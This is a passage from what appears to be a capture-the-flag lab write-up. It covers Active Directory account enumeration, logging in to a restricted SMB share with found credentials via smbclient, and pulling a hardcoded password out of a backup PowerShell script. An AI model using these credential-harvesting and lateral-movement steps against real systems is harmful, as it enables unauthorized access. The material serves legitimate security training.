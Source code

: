 ```bash
  acb: '0x00000214'                                                                                                                  
  description: Built-in account for guest access to the computer/domain                                                              
'502':                                                                                                                               
  username: krbtgt                                                                                                                   
  name: (null)                                                                                                                       
  acb: '0x00020011'                                                                                                                  
  description: Key Distribution Center Service Account                
```
We now have another set of credentials to try:

    Username: david.orelious
    Password: aRt$Lp#7t*VQ!3

With the new user privileges, I returned to check if I could access shares that were previously restricted. Using the following command:

Using the credentials for `david.orelious`, I accessed the `DEV` share, which was previously restricted. I used the following command to connect:

```bash
smbclient "//10.10.11.35/DEV" -U david.orelious
```
After successfully logging in, I ran the dir command and found a powershell file:

```

smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 18:28:22 2024
```
The PowerShell script named Backup_script.ps1, i downloaded the script:

```powershell

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

This script authenticating as emily.oscars, along with a hardcoded password: Q!3@Lp#M6b*7t*Vt.
